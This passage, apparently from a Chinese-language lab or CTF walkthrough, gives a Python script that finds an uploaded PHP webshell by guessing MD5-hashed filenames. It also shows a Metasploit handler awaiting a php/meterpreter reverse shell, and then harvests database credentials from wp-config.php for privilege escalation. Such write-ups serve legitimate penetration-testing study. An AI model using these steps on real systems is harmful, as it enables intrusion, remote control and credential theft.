 然后我们可以写一个python脚本来帮助我们找到并访问我们上传的木马：

```
import hashlib
import requests
for i in range(101):
    file_name = hashlib.md5('sir.php'+str(i)).hexdigest()
    r = requests.get('http://192.168.88.133:8000/uploads/{}.php'.format(file_name))
```

然后我们设置好我们的msfconsole，等待反弹shell的连接：

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.88.130
lhost => 192.168.88.130
msf5 exploit(multi/handler) > exploit
```

![818602_TZCTQVZR4AUY82Q](/blog.github.io/images/818602_TZCTQVZR4AUY82Q.png)
然后我们就可以去网站上去上传木马，然后运行python脚本，然后看到我们已经获得了一个shell：
![818602_GAQ3TURHMVPA2KB](/blog.github.io/images/818602_GAQ3TURHMVPA2KB.png)
但是我们的权限很低.....

### 提权1

我们在Web目录中找到Wordpress的配置文件wp-config.php，看到了数据库连接信息：

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */
 
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');
 
/** MySQL database username */
define('DB_USER', 'wordpress');
 
/** MySQL database password */
define('DB_PASSWORD', 'wordpress');
 
/** MySQL hostname */
define('DB_HOST', 'db:3306');
 
/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```